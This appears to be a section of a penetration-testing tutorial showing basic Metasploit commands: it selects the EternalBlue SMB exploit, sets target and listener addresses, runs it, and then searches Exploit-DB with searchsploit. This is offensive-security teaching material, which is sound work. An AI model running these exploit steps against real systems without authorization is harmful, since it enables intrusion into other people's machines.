 ```bash
# Start Metasploit
msfconsole

# Search for modules
search apache

# Use a module
use exploit/windows/smb/ms17_010_eternalblue

# View options of the currently activated module
show options
info

# Set required options
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50

# Execute the activated exploit module
exploit
# or
run
```

You can read more about Metasploit in the **[documentation](https://docs.metasploit.com)**, or deep dive in **[Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/)**.


#### Finding Exploits

You can discover more with `search`, e.g.

```bash
search type:exploit platform:windows
search type:auxiliary name:apache scanner
```
Tip: Versions matter - minor version differences can determine if an exploit works.

You can also search for known exploits in the [Exploit-DB](https://www.exploit-db.com/). This is also available on Kali Linux with tool `searchsploit`:

```bash
$ searchsploit -t oracle windows
--------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                         |  Path
--------------------------------------------------------------------------------------- ---------------------------------
Oracle 10g (Windows x86) - 'PROCESS_DUP_HANDLE' Local Privilege Escalation             | windows_x86/local/3451.c
Oracle 9i XDB (Windows x86) - FTP PASS Overflow (Metasploit)                           | windows_x86/remote/16731.rb
Oracle 9i XDB (Windows x86) - FTP UNLOCK Overflow (Metasploit)                         | windows_x86/remote/16714.rb
```
